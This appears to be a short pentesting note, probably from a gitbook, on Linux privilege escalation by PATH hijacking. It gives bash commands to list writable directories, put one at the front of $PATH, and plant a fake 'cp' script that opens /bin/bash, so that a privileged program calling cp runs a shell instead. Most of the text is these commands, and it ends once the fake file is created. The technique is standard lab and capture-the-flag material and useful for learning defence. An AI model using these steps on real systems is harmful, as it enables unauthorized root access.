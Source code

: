 # PATH

we start to know all paths are stored

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png>)

then we want to know what are folder is writable

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

we compare if any writable folder is path or not if not found we try to add this folder in `$PATH`

```bash
export PATH=/tmp:$PATH
# replace /tmp to your path
```

then we will create a malicious file

```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/cp
chmod +x /tmp/cp
```

